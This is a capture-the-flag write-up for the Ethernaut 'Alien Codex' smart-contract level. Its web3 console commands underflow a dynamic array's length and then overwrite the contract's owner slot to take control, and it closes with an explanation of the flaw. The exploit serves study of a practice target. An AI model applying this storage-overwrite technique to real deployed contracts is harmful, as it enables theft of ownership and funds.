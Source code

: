 # Alien codex

Mission: take over owner of this contract but we no way to modify it directly because it now show how to assign value to `owner` that they inheit from Ownable.

check value of slot 0:
```javascript
await web3.eth.getStorageAt(contract.address,0)
> '0x000000000000000000000000da5b3fb76c78b6edee6be8f11a1c31ecfb02b272'
```

Try check owner:

```javascript
await contract.owner();
> '0xda5b3Fb76C78b6EdEE6BE8F11a1c31EcfB02b272'
```

To make change at revise function, we need to enable modifier contacted:
```javascript
await contract.make_contact();
```

Verify value in slot0 again and see that first byte change from 0x..0 to be 0x..1:
```javascript
await web3.eth.getStorageAt(contract.address,0)
> '0x000000000000000000000001da5b3fb76c78b6edee6be8f11a1c31ecfb02b272'
```
It means slot 0 have both bool 1 byte and **owner** address.
![slot0](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Alien%20Codex/photo/slot0.JPG)

Check value of slot1:
```javascript
await web3.eth.getStorageAt(contract.address,1)
> '0x0000000000000000000000000000000000000000000000000000000000000000'
```

It no value at all, we try underflow attack by call function retract() to open all dynamic array:
```javascript
await contract.retract();
```

Verify value at slot1 again:
```javascript
await web3.eth.getStorageAt(contract.address,1)
> '0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff'
```

from function revise(), we saw that it use codex[i],we may need to overflow slot from slot1 to slot0 
and find index of the owner that were in slot0, We want to replace value of `bytes32 _content` at the index of owner as player address.
Refer to maximum one slot hold 32 bytes mean 256 bit (1byte=8 bit)
_owner variable is located at slot 0 (address have 20 bytes), we need to change from 20bytes to 32bytes for `_content`.
See solution in [addr32bytes.js](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Alien%20Codex/addr32bytes.js)

Find index of owner, see solution in [callIndex.sol](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Alien%20Codex/callIndex.sol)

![index](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Alien%20Codex/photo/index.JPG)

Replace owner address as player address:
```javascript
await contract.revise('35707666377435648211887908874984608119992236509074197713628505308453184860938','0x000000000000000000000000176366cFD97885245fAEA72f8cB6951e52655Adf');
```

Verify that you are owner now:
```javascript
await contract.owner();
> '0x176366cFD97885245fAEA72f8cB6951e52655Adf'
```

![slot1](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Alien%20Codex/photo/slot1.JPG)

Level completed!
Difficulty 7/10

This level exploits the fact that the EVM doesn't validate an array's ABI-encoded length vs its actual payload.

Additionally, it exploits the arithmetic underflow of array length, by expanding the array's bounds to the entire storage area of 2^256. The user is then able to modify all contract storage.

Both vulnerabilities are inspired by 2017's [Underhanded coding contest](https://medium.com/@weka/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079)